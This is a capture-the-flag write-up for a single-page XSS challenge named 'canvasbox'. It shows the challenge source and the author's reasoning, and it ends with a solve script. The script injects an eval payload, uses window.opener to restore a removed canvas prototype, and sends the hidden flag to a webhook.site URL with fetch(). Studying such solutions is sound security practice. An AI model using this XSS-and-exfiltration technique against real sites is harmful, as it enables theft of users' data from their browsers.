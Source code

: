 # canvasbox

## Challenge Description

A single page XSS challenge by `Ark`. The server also response with CSP header `Content-Security-Policy: base-uri 'none'; frame-ancestors 'none'`


## Challenge Source code
```html
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "this_is_a_flag";
      localStorage.removeItem("flag");

      const canvas = document.createElement("canvas");
      canvas.id = "flag";
      canvas.getContext("2d").font = `1px "${flag}"`; // :)
      document.body.appendChild(canvas);

      delete window.open;

      const removeKey = (obj, key) => {
        
        delete obj[key];
        if (key in obj) {
          Object.defineProperty(obj, key, {});
        }
        
      };

      for (const descriptor of Object.values(
        Object.getOwnPropertyDescriptors(window)
      )) {
        const value = descriptor.value;
        const prototype = value?.prototype;

        if (prototype instanceof Node || value === DOMParser) {
          // Delete all the properties
          for (const key of Object.getOwnPropertyNames(value)) {
            removeKey(value, key);
          }
          for (const key of Object.getOwnPropertyNames(prototype)) {
            removeKey(prototype, key);
          }
        }
      }
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";

    eval(xss); // Get the flag!
  </script>
</body>

```

## What did I do?

### Stuggle

First, of cuz popping `alert` boxes!

![](image-3.png)

In this challenge, we can only access `flag` via `canvas.getContext("2d").font`, however the `getContext` function, along with many other things were removed by the author.

I don't have `document.createElement`, `body.innerHTML`, not even `document.body`! The only way to work with this is to recover the `getContext` function from a webpage that is still intact.

After few hours of stuggle, I noticed the server failed to set `Cross-Origin-Opener-Policy` as it is served via unsecure HTTP connection, and the code specifically removed `window.open`. I wonder if this is a hint :O

### Solution

Reading some writeup, it seems that everyone is using `window.open` like the popup blocker doesn't exists (yes, it doesn't exists in the bot). With this function, we can create a new, unpolluted `document` and access the removed `getContext` function. Except that it is specifically removed in this challenge...

So instead, we can call `window.open` on our own website, and access the `document` via `window.opener`. After some try-and-error, I got this solve script:

## Solve Script

```html
<script>
  payload = `
    fetch("https://webhook.site/xxxxxxxxxxxx?inner")
    window.opener.location = "http://web:3000/404"
    setTimeout(()=>{
        window.opener.document.write("<canvas id=ff></canvas>")
        Object.setPrototypeOf(flag, window.opener.document.getElementById("ff").__proto__);
        fetch("https://webhook.site/xxxxxxxxxxxx?"+flag.getContext("2d").font)
    },1000);
  `
  window.open("http://web:3000/?xss=" + encodeURIComponent(payload))
</script>
<img src="https://webhook.site/xxxxxxxxxxxx?ready" />
```

## Some explaination to the code

![image](https://github.com/user-attachments/assets/a49e78a5-ab4b-47e5-8129-eb7a57ec26e8)

## Comments

This challenge was a `hard` challenge and I am very lucky to be able to solve it. Surprisingly, I couldn't solve the `easy` challenge "Slide Sandbox". Looking at the solve counts, seems everyone had the same thought. I wonder if I got the intended solution?

![](image-2.png)

Anyway, I think I won this game as I solved a `hard` challenge from `Ark` lol. Thanks!
